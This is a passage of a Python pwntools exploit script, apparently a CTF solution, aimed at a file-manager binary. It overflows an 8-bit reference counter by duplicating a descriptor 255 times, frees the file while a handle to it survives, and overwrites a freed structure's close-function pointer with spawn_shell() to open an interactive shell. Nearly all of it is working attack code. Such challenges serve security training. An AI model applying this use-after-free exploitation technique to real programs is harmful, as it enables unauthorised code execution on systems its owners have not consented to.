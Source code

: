 ```python
    resp = proc.recvline()
    if "Error" in resp:
        raise Exception(resp)
    new_fd = resp.split(": ")[1].rstrip()
    log.info("File with fd {} duplicated, new fd: {}".format(fd, new_fd))
    return new_fd

def read(proc, fd, n):
    read_menu(proc)
    proc.sendline("read {} {}".format(fd, n))
    log.info("Reading {} bytes from fd {}".format(n, fd))
    resp = proc.recvline()
    return proc.recvuntil(ENTER_CMD, drop = True) 

def write(proc, fd, n, data):
    read_menu(proc)
    proc.sendline("write {} {} {}".format(fd, n, data))
    log.info("Writing {} bytes to fd {}:\n{}".format(n, fd, hexdump(data)))
    resp = proc.recvline()
    return proc.recvuntil(ENTER_CMD, drop = True) 

def exit(proc):
    read_menu(proc)
    proc.sendline("exit")
    log.info("Quitting...")

log.info("Address of spawn_shell(): {}".format(hex(exe.symbols['spawn_shell'])))

io = start()

opening_text = read_opening_text(io)
match = re.search(r"At this point of time, only (\d+) files can be managed at the same time.", opening_text)
num_files = int(match.group(1))

file0 = create(io, "file_0")
file1 = create(io, "file_1")
file0_dup = dup(io, file0)

for i in range(num_files - len([file0, file0_dup, file1])):
    create(io, "filler_{}".format(i))


# Overflow reference counter for file_0 (current reference count is 2)
num_duplications = UINT8_MAX
for i in range(num_duplications):
    try:
        dup(io, file0)
    except:
        pass
log.info("Attempted to duplicate fd {} for {} times".format(file0, num_duplications))
# Reference counter is now 1

close(io, file0)

fc = file_context_t.from_buffer_copy('A' * ctypes.sizeof(file_context_t))
fc.p_close_func = exe.symbols['spawn_shell']

write(io, file1, ctypes.sizeof(fc), fc.to_bytes())

close(io, file0_dup)

io.interactive()
```